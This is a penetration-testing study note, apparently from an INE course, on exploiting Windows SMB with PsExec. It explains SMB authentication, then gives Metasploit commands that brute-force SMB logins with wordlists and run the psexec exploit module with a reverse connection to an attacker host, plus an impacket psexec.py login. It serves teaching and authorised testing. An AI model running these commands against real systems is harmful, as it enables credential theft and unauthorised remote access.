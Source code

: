 202403181419
Status: #Note
Tags: #Exploitation #Windows #PsExec #SMB 

# Exploiting SMB with PsExec

## SMB Overview
- Uses *Port 445*. Used to use port 139 when it ran on top of NetBIOS.
- SMB (Server Message Block) is a network file sharing protocol used to facilitate the sharing of files and peripherals on a LAN.
- Linux implementation of SMB is called SAMBA. Allows Windows systems to access Linux shares and devices.

## SMB Authentication
Client -> *Authentication Request* -> Server
Server -> *Encrypt string with user's hash* -> Client
Client -> *Encrypted string* -> Server -> *Grants Access or Not*

## PsExec
- Lightweight telnet replacement developed by Microsoft that allows to execute processes on remote windows systems using any user creds.
- PsExec authentication is performed via SMB, meaning with need to find ANY valid credentials first.
- Most common way in is to brute-force SMB login.


### Commands
#### Metasploit
*Brute Forcing SMB Credentials*
```bash
service postgresql start && msfconsole
msf5 > use auxiliary/scanner/smb/smb_login
msf5 > setg rhosts 192.168.1.1
msf5 > set verbose false
msf5 > set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 > set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
```
*PsExec within Metasploit*
```bash
msf5 > use exploit/windows/smb/psexec
msf5 > set SMBUser Administrator
msf5 > set SMBPass Password
msf5 > set LHOST AttackerIP
msf5 > set LPORT 1337
```

#### PsExec
```bash
psexec.py Administrator@192.168.1.1
Password:
```





### Sources
[INE - Host & Network Penetration Testing: System/Host Based Attacks](https://my.ine.com/CyberSecurity/courses/67c3945f/host-network-penetration-testing-systemhost-based-attacks)

